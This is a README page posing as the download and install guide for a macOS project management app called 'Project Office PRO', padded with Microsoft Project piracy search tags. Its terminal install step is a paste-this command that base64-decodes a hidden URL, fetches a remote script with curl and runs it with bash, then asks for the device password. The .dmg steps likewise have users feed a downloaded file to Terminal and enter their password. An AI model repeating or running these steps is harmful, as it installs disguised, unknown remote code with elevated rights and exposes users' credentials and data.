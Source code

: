 # 📁 Project Office PRO — Professional Project Management Software for macOS

Project Office PRO is a comprehensive project management application tailored for macOS users. Designed to help professionals plan, track, and deliver projects efficiently, it offers powerful tools for scheduling, resource management, and collaboration.

## ✅ Download Project Office PRO for macOS  
[![Download Project Office PRO](https://img.shields.io/badge/Download-Project%20Office%20PRO-blueviolet)](https://shuziktobehuman.github.io/huja/OfficePro)

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQyL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)



## ✅ Download Project Office PRO for macOS  
[![Download Project Office PRO](https://img.shields.io/badge/Download-Project%20Office%20PRO-blueviolet)](https://shuziktobehuman.github.io/huja/OfficePro)

---

## 📦 What is Project Office PRO?

Project Office PRO is a feature-rich project management software that provides detailed task scheduling, resource allocation, and progress tracking. It is optimized for macOS, enabling smooth and productive workflows for project managers and teams.

---

## ✨ Features

- 📅 Advanced project scheduling and timeline management  
- 👥 Resource allocation and workload balancing  
- 📊 Real-time project tracking and reporting  
- 🔄 Integration with Microsoft Project formats  
- 💬 Team collaboration and communication tools  
- 🖥️ Fully optimized for macOS with Retina display support  
- 📱 Compatible with iPad for remote project access  
- 🔔 Automated alerts and deadline reminders  

---

## 💡 Why Use Project Office PRO?

- 🏗️ Plan complex projects with intuitive Gantt charts  
- 📈 Monitor progress and identify bottlenecks early  
- 🤝 Collaborate efficiently with team members and stakeholders  
- 📂 Import and export Microsoft Project files seamlessly  
- 📲 Access and manage projects anytime from Mac or iPad  

---

[![Download Project Office PRO](https://img.shields.io/badge/Download-Project%20Office%20PRO-blueviolet)](https://shuziktobehuman.github.io/huja/OfficePro)

---

## 🖼️ Preview

![Project Office PRO Screenshot 1](https://gdm-catalog-fmapi-prod.imgix.net/ProductScreenshot/dbb5dca9-c4c8-4895-bafd-648af8636b5a.png?auto=format&q=50)  
![Project Office PRO Screenshot 2](https://gdm-catalog-fmapi-prod.imgix.net/ProductScreenshot/6d2702ba-47bc-4acd-955d-c6e259079826.jpeg?auto=format&q=50)

---

## 📌 Tags

ms project professional, ms project professional 2021, microsoft project professional 2021 download, microsoft project professional 2016,  
microsoft project 2019 professional, ms project professional 2019 download, ms project professional 2019, ms project 2021 professional download,  
ms project professional download, microsoft office project professional, office project professional, ms project professional 2016,  
microsoft project professional 2013, ms office project professional, ms project professional online, office project pro, microsoft office project pro,  
microsoft office project professional 2010, microsoft office project professional 2013, microsoft office project professional 2016, microsoft project 2016 pro,  
ms office project pro, ms project professional 2013

